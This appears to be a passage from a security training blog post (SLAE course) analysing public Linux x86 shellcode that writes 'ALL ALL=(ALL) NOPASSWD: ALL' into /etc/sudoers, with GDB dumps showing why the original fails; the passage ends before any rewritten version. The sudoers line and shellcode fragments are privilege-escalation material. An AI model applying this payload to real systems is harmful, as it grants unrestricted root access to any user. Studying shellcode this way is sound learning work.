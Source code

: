 ```yaml
---
layout: post
title: Linux x86 Polymorphic Shellcode
tags: [slae]
---
```


The next assignment for the SLAE is taking existing shellcode from shell-storm or exploit-db and making polymorphic versions for three of them. 

## edit /etc/sudoers with ALL ALL=(ALL) NOPASSWD: ALL

The first shellcode I decided to tackle polymorphism on is shellcode for adding `ALL ALL=(ALL) NOPASSWD: ALL` to /etc/sudoers. Original shellcode can be found here: 

<http://shell-storm.org/shellcode/files/shellcode-62.php>

To better understand the shellcode I decided to put it through a debugger and to my surprise the shellcode actually doesn't work at all. This is because the original shellcode doesn't clear out registers in preparation of the syscalls. 

In GDB below after the MOV dl, 0x1c instruction is called:

```
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x3 
ECX: 0xbffff5fc ("ALL ALL=(ALL) NOPASSWD: ALL\n")
EDX: 0xb7fbf81c --> 0x0 
ESI: 0x0 
EDI: 0x0 
EBP: 0xbffff658 --> 0x0 
ESP: 0xbffff5fc ("ALL ALL=(ALL) NOPASSWD: ALL\n")
EIP: 0x804a088 --> 0x80cd04b0
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x804a07f <code+63>:	push   0x204c4c41
   0x804a084 <code+68>:	mov    ecx,esp
   0x804a086 <code+70>:	mov    dl,0x1c
=> 0x804a088 <code+72>:	mov    al,0x4
   0x804a08a <code+74>:	int    0x80
   0x804a08c <code+76>:	mov    al,0x6
   0x804a08e <code+78>:	int    0x80
   0x804a090 <code+80>:	xor    ebx,ebx
```

You can see that EDX contains more than just 0x1c which causes the write() to fail. 

The exit call suffers the same issue after doing a MOV al, 0x1.

```
[----------------------------------registers-----------------------------------]
EAX: 0xffffff01 
EBX: 0x0 
ECX: 0xbffff5fc ("ALL ALL=(ALL) NOPASSWD: ALL\n")
EDX: 0xb7fbf81c --> 0x0 
ESI: 0x0 
EDI: 0x0 
EBP: 0xbffff658 --> 0x0 
ESP: 0xbffff5fc ("ALL ALL=(ALL) NOPASSWD: ALL\n")
EIP: 0x804a094 --> 0x80cd
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x804a08e <code+78>:	int    0x80
   0x804a090 <code+80>:	xor    ebx,ebx
   0x804a092 <code+82>:	mov    al,0x1
```